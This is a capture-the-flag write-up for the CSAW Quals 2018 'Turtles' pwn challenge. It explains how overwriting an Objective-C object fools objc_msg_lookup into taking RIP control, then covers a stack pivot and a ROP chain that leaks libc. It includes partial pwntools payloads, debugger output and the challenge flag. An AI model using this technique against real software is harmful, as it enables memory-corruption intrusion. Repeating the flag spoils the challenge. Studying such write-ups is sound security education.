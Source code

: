 ```yaml
---
title: Turtles - CSAW Quals 2018
date: '2018-09-18 14:49:32'
layout: post
---
```


> Looks like you found a bunch of turtles but their shells are nowhere to be seen! Think you can make a shell for them?
>
> nc pwn.chal.csaw.io 9003
>
> Update (09/14 6:25 PM) - Added libs.zip with the libraries for the challenge
>
> [tutles](https://github.com/vakzz/ctfs/raw/master/CSAW18/turtles/turtles) [libc.zip](https://github.com/vakzz/ctfs/raw/master/CSAW18/turtles/libs.zip) 

_250 points, 65 Solves, pwn_

We are given a small binary that when run prints out **Here is a Turtle**  along with what looks like a heap address, then takes some input and segfaults. Looking at the decompiled code we can see that it is objective-c based:

```c
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);

  TurtleClass = objc_get_class("Turtle", 0LL);
  alloc = objc_msg_lookup(TurtleClass, allocSelector);
  turtleMem = alloc(TurtleClass, allocSelector);

  init = objc_msg_lookup(turtleMem, initSelector);
  turtle = init(turtleMem, initSelector);

  printf("Here is a Turtle: %p\n", turtle, argv);
  read(0, buf, 2064uLL);
  memcpy(turtle, buf, 0xC8uLL);

  say = objc_msg_lookup(turtle, saySelector);
  say(turtle, saySelector, &aIAmATurtle_NString);

  release = objc_msg_lookup(turtle, releaseSelector);
  release(turtle, releaseSelector);
```

A `Tutrle` is first initialzed and we are given its heap address, then 2064 bytes are read into a stack buffer, and the the first 200 of them are used to overwrite our tutle object. Finally the the say method on our turtle is called.

I started off by just sending a payload of `cyclic(200)` to see what would happen, and we end up segfaulting with:
```javascript
 $rbp   : 0x6161616261616161 ("aaaabaaa"?)
 0x7fc46ff0bbf9 <objc_msg_lookup+25> mov    rdx, QWORD PTR [rbp+0x40]
```

As we are given the heap adress, we can set this to a known location to try continue on. Setting it to the address of our turtle produces this segfault:

```javascript
 $rcx   : 0xc95
 $rdx   : 0x616161706161616f ("oaaapaaa"?)
 0x7f0259eb8c0c <objc_msg_lookup+44> cmp    rcx, QWORD PTR [rdx+0x28]
```

All of this is controlable still, so what happens if we fix up `[rdx+0x28]` to point to something less than `0xc95`?

```python
 p.sendline(p64(turtle) + cyclic(56) + p64(turtle + 32) + p64(1))
```
```javascript
 $rax   : 0x6161616a61616169 ("iaaajaaa"?)
 0x7fe32c500c16 <objc_msg_lookup+54> mov    rax, QWORD PTR [rax]
```

So far so good. If we fix up this final segfault we end up with rip control!
```python
  p.sendline(p64(turtle) + "A"*32 + p64(turtle + 80) + "B"*16 + p64(turtle + 32) + p64(1) + p64(0x12345678))
```
![gef-rip](/assets/csaw18/turtles1.jpg)

Also it looks like our payload is not too far away in the stack, so we should be able to find a simple pop4/ret to start a rop chain!

From here it was just a matter of pivoting the stack to the heap so we have a bit more space to work with, and leaking libc. It was a bit tricky as there was no gadget to easily set rdx which got changed to 0 after calling printf, but we did have the option of jumping back to the start of main and repeating everything. This allowed us to read the final rop payload after we had leaked libc.

After solving this, I had a bit more of a look into what was actually happening in `objc_msg_lookup`. From [sendmsg.c#L448](https://github.com/gcc-mirror/gcc/blob/gcc-4_8_5-release/libobjc/sendmsg.c#L448) it looks like we simply tricked the lookup into thinking our payloaded was a valid cached method and so it was returned and used.

`flag{i_like_turtl3$_do_u?}`

Full exploit at [turtles.py](https://github.com/vakzz/ctfs/blob/master/CSAW18/turtles/turtles.py)